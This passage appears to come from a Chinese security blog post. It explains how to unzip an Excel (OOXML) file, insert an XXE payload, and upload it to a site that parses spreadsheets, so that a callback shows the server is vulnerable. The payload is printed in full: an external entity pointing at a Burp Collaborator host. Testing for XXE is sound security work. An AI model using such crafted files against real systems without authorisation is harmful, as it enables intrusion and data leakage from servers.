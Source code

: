 ## 技巧扩展

在之前看到一个小技巧这里也做个简单的补充，在 Microsoft Office 从 2007 版本中引入了一种名为 Office Open XML(OOXML) 的文件格式，这个格式基于 ZIP 文件格式并且包含了许多 XML 文件来描述工作簿数据、元数据和文档信息，我们可以通过将 Excle 解压并在其中插入 XXE 利用载荷并找寻可以上传 Excel 的地方实现漏洞的检测和利用，例如：  
[![](assets/1706060044-293b08e46797c272dc580f2107552771.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133747-8a75248a-b9b1-1.png)  
随后改造 excel 文件

[![](assets/1706060044-c9399534704db634d0bc3d2ee4062d07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133808-97062a82-b9b1-1.png)

随后将以下内容插入第 2 行和第 3 行，SYSTEM 后面自己添加相对应的 dns 记录均可

```plain
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://1rt3nfjp8y8m05ul8ql8wp0k7bd21r.burpcollaborator.net/"> ]>
<x>&xxe;</x>
```

[![](assets/1706060044-cb3b147a674153c7eec2a378d1d26d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133829-a33b0f48-b9b1-1.png)

[![](assets/1706060044-3696abf0f5f1b59e13bf02ddf8dfb6b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123133838-a8d5fb5c-b9b1-1.png)  
添加好后直接上传 Excel 使其进行在线解析，查看此时 dns 是否又记录即可，目前很多新版本已经对外部解析进行了禁用处理，但是作为一种思路去进行尝试
